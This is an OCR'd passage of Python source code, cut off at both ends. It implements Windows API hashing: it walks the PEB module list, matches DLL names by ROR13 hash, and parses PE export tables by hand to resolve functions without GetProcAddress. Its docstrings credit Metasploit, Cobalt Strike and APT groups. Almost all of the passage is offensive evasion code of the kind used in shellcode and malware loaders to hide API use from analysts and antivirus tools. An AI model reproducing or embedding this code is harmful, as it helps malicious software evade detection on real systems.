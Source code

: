 ```python
        # TEB is at GS:[0x30] on x64
        teb = ctypes.windll.ntdll.NtCurrentTeb()
        peb = ctypes.c_void_p.from_address(teb + 0x60).value
        
        # PEB->Ldr->InMemoryOrderModuleList
        ldr = ctypes.c_void_p.from_address(peb + 0x18).value
        in_memory_list = ctypes.c_void_p.from_address(ldr + 0x20).value
        
        # Walk module list
        current = in_memory_list
        while True:
            # Get module base
            dll_base = ctypes.c_void_p.from_address(current + 0x20).value
            
            # Check if this is our module by hashing name
            dll_name_ptr = ctypes.c_void_p.from_address(current + 0x50).value
            dll_name = ctypes.wstring_at(dll_name_ptr).lower()
            
            if self._hash_string(dll_name) == self._hash_string(module_name.lower()):
                # Found our module - now find function
                return self._get_export_by_hash(dll_base, function_hash)
            
            # Next module
            current = ctypes.c_void_p.from_address(current).value
            if current == in_memory_list:
                break
    
    return None

def _hash_string(self, s: str) -> int:
    """
    ROR13 hash (Metasploit standard)
    Used by: Metasploit, Cobalt Strike, APT groups
    """
    hash_value = 0
    for c in s.upper():
        hash_value = ((hash_value >> 13) | (hash_value << (32 - 13))) & 0xFFFFFFFF
        hash_value = (hash_value + ord(c)) & 0xFFFFFFFF
    return hash_value

def _get_export_by_hash(self, module_base: int, function_hash: int) -> int:
    """
    Find export by hash without calling GetProcAddress
    Walks PE export table manually
    
    Research:
    - PE Format specification (Microsoft)
    - "Practical Malware Analysis" Ch 7
    - Metasploit block_api.asm
    """
    try:
        # Parse PE headers
        dos_header = ctypes.c_uint16.from_address(module_base).value
        if dos_header != 0x5A4D:  # MZ
            return None
        
        # Get NT headers offset
        nt_offset = ctypes.c_uint32.from_address(module_base + 0x3C).value
        nt_headers = module_base + nt_offset
        
        # Get export directory
        export_dir_rva = ctypes.c_uint32.from_address(nt_headers + 0x88).value
        export_dir = module_base + export_dir_rva
```